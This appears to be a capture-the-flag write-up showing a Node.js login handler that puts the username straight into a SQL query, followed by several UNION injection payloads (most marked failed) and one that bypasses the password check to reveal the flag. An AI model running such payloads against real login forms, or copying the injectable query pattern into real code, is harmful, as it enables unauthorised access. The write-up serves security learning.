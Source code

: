```Node.js=
    res.render('index.ejs', { failed: req.query.failed !== undefined });
});

app.post('/login', async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    if (!username || !password) {
        return res.redirect('/?failed');
    }

    try{
    	const row = await req.db.get(`SELECT * FROM admin WHERE username='${username}'`);

    	if (row && row.username === 'admin' && row.password === password) {
            return res.send('FLAG: ' + flag);
    	}
    } catch(error) {
	console.log(error);
    }

    return res.redirect('/?failed');
});

app.get('/source', async (req, res) => {
    const fs = require('fs');
    // const re = /FLAG{.*}/;
    let sourceCode = fs.readFileSync(__filename, 'utf8');
    // sourceCode = sourceCode.replace(re, 'FLAG{not_real_flag}');
    res.set('Content-Type', 'text/plain');
    res.send(sourceCode);
});

app.listen(PORT, () => {
    console.log(`Server is running on port ${PORT}`);
});
```

xxxxx' ) union SELECT 'admin','`chw`' --
 `chw` (X)
 
 ' UNION SELECT 1, username, password FROM admin -- (X)
 
 admin' UNION SELECT null, password FROM admin-- (X)

admin' UNION ALL SELECT null, password FROM admin-- (X)

> chw' UNION SELECT 'admin','pwd' FROM admin where username='admin
> pwd

![image](https://hackmd.io/_uploads/B1Vk9YC_T.png)

### Get FLAG
**FlAG: flag{4f5c7927-a36b-4cb0-b64e-65977559eae6}**